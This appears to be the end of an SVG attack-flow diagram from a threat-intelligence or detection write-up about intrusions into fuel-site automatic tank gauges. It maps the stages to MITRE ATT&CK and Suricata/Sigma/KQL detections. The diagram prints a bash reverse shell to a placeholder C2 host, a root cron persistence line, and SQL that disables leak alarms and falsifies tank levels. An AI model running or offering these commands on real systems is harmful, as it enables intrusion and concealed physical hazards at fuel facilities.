  <text class="sub" x="468" y="731">Reverse shell to attacker C2 infrastructure</text>
  <text class="mono" x="468" y="757">bash -i &gt;&amp; /dev/tcp/&lt;C2&gt;/4444 0&gt;&amp;1</text>
  <text class="mono" x="468" y="775">*/5 * * * * root /tmp/.atg_agent &gt;/dev/null</text>
  <rect class="opK" x="460" y="805" width="395" height="155" />
  <circle class="badgeK" cx="480" cy="825" r="14" />
  <text class="badgeText" x="480" y="830">E</text>
  <text class="label" x="500" y="829">IMPACT — Push Physical-Consequence Config</text>
  <text class="sub" x="468" y="853">Disable leak detection alarm thresholds</text>
  <text class="sub" x="468" y="869">Modify tank level readings in ATG database</text>
  <text class="sub" x="468" y="885">Delete or modify local audit log to cover tracks</text>
  <text class="sub" x="468" y="901">Attacker removes visibility into physical process</text>
  <text class="mono" x="468" y="927">UPDATE alarm SET enabled=0 WHERE type='LEAK'</text>
  <text class="mono" x="468" y="945">UPDATE tank SET level=9999 WHERE site_id=1</text>
  <rect class="op" x="460" y="975" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="995" r="14" />
  <text class="badgeText" x="480" y="1000">F</text>
  <text class="label" x="500" y="999">Collection — Fuel / Site Intelligence</text>
  <text class="sub" x="468" y="1023">Exfiltrate fuel inventory and delivery schedules</text>
  <text class="sub" x="468" y="1039">Map fuel infrastructure for strategic targeting</text>
  <text class="sub" x="468" y="1055">Sectors: Energy / Chemical / Food / Transport</text>
  <text class="sub" x="468" y="1071">Data used for sabotage planning or ransom leverage</text>
  <text class="mono" x="468" y="1097">OT device outbound TCP -&gt; external = C2/exfil</text>
  <text class="mono" x="468" y="1115">Suricata SID 2400005 fires on ATG outbound</text>
  <line class="arrow" x1="227" y1="255" x2="227" y2="270" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="405" x2="227" y2="420" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="555" x2="227" y2="570" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="705" x2="227" y2="720" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="855" x2="227" y2="870" marker-end="url(#ah)" />
  <line class="arrow" x1="227" y1="1005" x2="227" y2="1020" marker-end="url(#ah)" />
  <line class="arrowR" x1="657" y1="280" x2="657" y2="295" marker-end="url(#ah)" />
  <line class="arrowR" x1="657" y1="450" x2="657" y2="465" marker-end="url(#ah)" />
  <line class="arrowR" x1="657" y1="620" x2="657" y2="635" marker-end="url(#ah)" />
  <line class="arrowR" x1="657" y1="790" x2="657" y2="805" marker-end="url(#ah)" />
  <line class="arrowR" x1="657" y1="960" x2="657" y2="975" marker-end="url(#ah)" />
  <line class="arrowX" x1="460" y1="197" x2="425" y2="197" marker-end="url(#ah)" />
  <line class="arrowX" x1="460" y1="372" x2="425" y2="372" marker-end="url(#ah)" />
  <line class="arrowX" x1="460" y1="882" x2="425" y2="882" marker-end="url(#ah)" />
  <rect class="footer" x="20" y="1175" width="840" height="95" />
  <text class="footerH" x="35" y="1197">MITRE ATT&amp;CK Enterprise</text>
  <text class="footerT" x="35" y="1213">T1595.002 T1190 T1078 T1059.004 T1068 T1562.001 T1565.001 T1041 T1071.001</text>
  <text class="footerH" x="35" y="1233">MITRE ATT&amp;CK ICS</text>
  <text class="footerT" x="35" y="1249">T0836 Modify Parameter T0831 Manipulation of Control T0816 Device Stop T0859 Valid Accounts</text>
  <text class="footerT" x="35" y="1261">Detection: Suricata SID 2400001-2400005 | Sigma: port-10001, OS-cmdinj, OT-outbound | KQL: atg-kql-001/002/003</text>
</svg>
